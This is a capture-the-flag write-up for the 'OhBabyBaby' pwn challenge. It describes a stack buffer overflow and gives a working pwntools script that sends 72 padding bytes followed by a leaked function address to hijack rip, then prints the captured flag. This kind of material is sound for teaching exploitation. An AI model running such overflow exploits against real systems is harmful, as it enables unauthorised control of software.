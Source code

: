 ## OhBabyBaby 

### Challenge Description

If you don't solve this, Dennis Ritchie will be really heartbroken :(  

nc 185.14.184.242 12990  

### Writeup
We are given a server address and its code. If you see the code, you will understand that one of the functions is reading the flag and we have to give input in a way that oass some bytes and reach `rip`. If you analyze the elf file in gdb you will see that after putting 72 extra bytes you can reach rip. The address of this function is shown when running this program. We read this address and put this address after 72 extra bytes.  
We used code below and could get the flag.  
```python
from pwn import *
bof = b"A"*72
conn = remote('185.14.184.242', '12990')
#conn = process('./ohbabybaby')
data = conn.recvuntil(".....................................Tap Tap to see your prize!!....................................\n").decode("utf-8")
print(data)
conn.sendline("A")   # so that we can see the address of ultimatePrize
data = conn.recvuntil("............................................Did you enjoy?..........................................").decode("utf-8")
conn.recvuntil("\n")
print(data)
address = "0x"+data.split("0x")[1][:12]
print(address)
conn.recvline()
try:
    conn.sendline(bof + p64(int(address, 16)))
    print(conn.recvall().decode("utf-8"))
except:
    print("error!\n")
    print(conn.recvall().decode("utf-8"))
```
Here is the flag:  
```
S4CTF{W311_D0n3_f0r_th3_3xpl0it_Vuln3rability_i5_aws0m3!!}
```
